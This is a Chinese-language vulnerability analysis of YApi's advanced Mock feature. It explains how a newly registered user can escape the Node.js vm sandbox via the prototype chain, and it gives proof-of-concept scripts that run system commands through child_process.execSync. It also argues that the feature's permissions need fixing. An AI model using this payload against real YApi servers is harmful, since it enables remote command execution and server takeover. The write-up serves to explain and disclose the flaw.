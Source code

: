 ## 0x03 漏洞分析 

​	这个漏洞的利用条件首先需要用户通过认证，而YAPI 支持任意用户的注册功能，

​	注册之后的用户虽然没有任何分组与项目的权限，因此只能搜索、浏览 “公开项目” 的接口。但是新用户登录拥有 `个人空间` 分组下的**全部权限**，个人空间分组仅自己可见，因此可以在这里**任意试用 YApi 的功能**。

​	这里也就包括了高级Mock功能，该功能的本意是方便用户编写自己的JS脚本，该脚本将会运行在NodeJS沙盒上，但是NodeJS沙盒并不提供安全保证。关于JS沙箱的安全问题早有探讨。（见 《说说JS中的沙箱》——腾讯IVWEB团队）

​	NodeJS中使用沙箱很简单，只需要利用原生的vm模块，便可以快速创建沙箱，同时指定上下文。

```
 const vm = require(&#39;vm&#39;); const x = 1; const sandbox = {x:2}; vm.createContext(sandbox);  //Contextify the sandbox.  const code = &#39;x &#43;= 40;var y=17;&#39;; vm.runInContext(code,sandbox); console.log(sandbox.x);  // 42 console.log(sandbox.y);  // 17 console.log(x);// 1; y is not defined.
```

​	vm中提供了runInNewContext、runInThisContext、runInContext三个方法，三者的用法有个别出入，比较常用的是runInNewContext和runInContext，可以传入参数指定好上下文对象。

​	可惜的是 如果这样，我们可以用原型链绕过，如下

```
 const vm = require(&#39;vm&#39;);   vm.runInNewContext(&#34;this.constructor.constructor(&#39;return process&#39;)().exit()&#34;)
```

​	网上关于NodeJS、沙箱一类的安全技术研究也有很多，可以参考下学一学。

​	回到这个漏洞，已知Mock脚本会在沙箱中运行，那么我们只需要利用类似上面的原型链进行绕过，退出沙箱，再构造调用命令即可。

Poc：

```
 const process = this.constructor.constructor(&#39;return process&#39;)() mockJson = process.mainModule.require(&#34;child_process&#34;).execSync(&#34;whoami&#34;).toString()
```

​	注意，这里不需要加 exit，加了以后yapi服务会退出。

网上的Poc其实表达的意思是一样的，如下：

```
 const sandbox = this const ObjectConstructor = this.constructor const FunctionConstructor = ObjectConstructor.constructor const myfun = FunctionConstructor(&#39;return process&#39;) const process = myfun() mockJson = process.mainModule.require(&#34;child_process&#34;).execSync(&#34;whoami&#34;).toString()
```

我认为这个问题的本质是功能的滥用，JS沙箱绕过导致远程代码执行。之前看了一个文档《nodejs命令执行和沙箱安全》，他所说的内容有对也有不对的地方。

​	作者认为这是一个正常的功能， “很多安全人员没深入开发或者是结合到sdl中，所以对这些需求的理解不深刻。那么假设我们要执行这个需求，这个需求就是要执行任意命令，因为业务会有千奇百怪的需求，前端nodejs就要执行命令来测试的。”，我虽然也是脱离业务的安全人员，但也相信确实存在各种乱七八糟的需求，执行命令也确实有它的客观需要。

​	但文章作者认为这个正常的功能，不需要修复，我觉得不对。

​	Mock 提供的JS脚本确实是正常的功能，但是不是真的需要给任何人都开放这个权限呢？

​	我认为这是一个功能的滥用，Mock的初衷是好的，但是却容易导致被攻击者恶意利用，造成的危害是重大的。安全是一门平衡的艺术，是为了保障业务持续稳定安全的运行。这次的问题还是侧重在用户权限上，官方允许新用户登录拥有 `个人空间` 分组下的**全部权限**，可以在这里**任意试用 YApi 的功能**，这样任何人都可以运行Mock脚本，继而间接导致任何人都可以控制服务器权限，这是存在安全隐患的。
